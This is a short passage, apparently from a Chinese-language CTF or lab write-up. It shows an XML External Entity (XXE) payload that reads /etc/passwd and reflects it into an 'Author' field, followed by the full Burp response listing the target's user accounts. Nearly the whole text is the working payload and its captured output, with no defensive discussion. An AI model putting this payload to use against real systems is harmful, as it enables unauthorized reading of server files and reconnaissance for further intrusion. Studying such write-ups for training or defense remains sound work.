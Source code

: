 ```


下面payload读取```/etc/passwd```，并且注入回显到Author字段
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [

	<!ENTITY xxe SYSTEM "file:///etc/passwd" >

]>

<data>

<Author>&xxe;</Author>

<Subject>test</Subject>

<Content>hello</Content>

</data>
```

burp返回
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash